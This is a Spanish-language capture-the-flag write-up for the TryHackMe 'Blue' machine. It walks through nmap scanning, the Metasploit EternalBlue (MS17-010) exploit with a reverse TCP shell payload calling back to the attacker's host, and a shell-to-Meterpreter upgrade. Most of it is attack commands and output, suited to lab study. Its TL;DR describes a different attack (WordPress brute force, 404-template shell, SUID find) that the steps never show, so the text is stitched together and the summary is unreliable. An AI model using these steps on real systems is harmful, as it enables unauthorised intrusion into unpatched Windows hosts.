 # Blue — Writeup

**Fecha:** 5-10-2025\
**Plataforma:** TryHackMe

---

## TL;DR

Se encontró un WordPress vulnerable, se obtuvieron credenciales por fuerza bruta, se subió un reverse shell editando la plantilla 404, se consiguió shell como www-data, se mejoró a TTY interactiva y se explotó /usr/bin/find con SUID para elevar a root y leer las flags.

---

## Enumeration (nmap)

```bash
nmap -sV -sC --open $IP -oN scan.txt
```

**Comment:** `-sV` detecta versiones de servicios; `-sC` ejecuta scripts por defecto; `--open` muestra solo los puertos abiertos; `-oN` guarda la salida en un archivo normal.

**Result**
```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
```

**Relevant Result**
* 445/tcp open microsoft-ds (Windows 7)
  
---

## Foothold (Metasploit)
**Search Exploit**
```bash
  msfconsole
  msf > search windows 7 eternalblue
#   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010
```
**Comment:** ``msfconsole`` abre la interfaz de Metasploit.


**Set Exploit**
```bash
  msf > Use 0
  msf exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS $MACHINEIP
  msf exploit(windows/smb/ms17_010_eternalblue) > set LHOST $LOCALIP
  msf exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
```

**Run Exploit**
```bash
  msf exploit(windows/smb/ms17_010_eternalblue) > run
	{...}
  meterpreter > 
```
## Privilege Escalation
**Background Shell**
```bash
  meterpreter > (CTRL+Z) 
Background session 1? [y/N] y
```

**Shell to Meterpreter**
```bash
msf > search shell_to_meterpreter
#  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter  .                normal  No     Shell to Meterpreter Upgrade
```
**List Sessions**
```bash
msf post(multi/manage/shell_to_meterpreter) > sessions -l
Active sessions
===============
  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  $IP -> $IP ($IP)

```
**Set & Run Meterpreter Shell**
```bash
 msf > Use 0
 msf post(multi/manage/shell_to_meterpreter) > set SESSION 1
```
**Switch Privilege Sesssion**
```bash
msf post(multi/manage/shell_to_meterpreter) > sessions 2
```



